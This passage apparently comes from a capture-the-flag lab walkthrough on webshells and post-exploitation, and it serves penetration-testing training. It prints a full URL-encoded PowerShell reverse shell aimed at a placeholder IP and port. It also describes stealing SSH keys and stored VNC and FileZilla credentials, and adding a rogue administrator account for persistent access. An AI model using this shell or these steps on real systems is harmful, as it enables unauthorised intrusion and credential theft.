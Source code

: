 As mentioned previously, there are a variety of webshells available on Kali by default at ```/usr/share/webshells``` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP . Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the ```cmd``` argument:
```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.
```
Read the WebShells information.
> No answer needed
```

## Task 12 - Next Steps 

##### Ok, we have a shell. Now what?

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at ```/home/<user>/.ssh``` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at ```C:\Program Files\FileZilla Server\FileZilla Server.xml``` or ```C:\xampp\FileZilla Server\FileZilla Server.xml```. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.
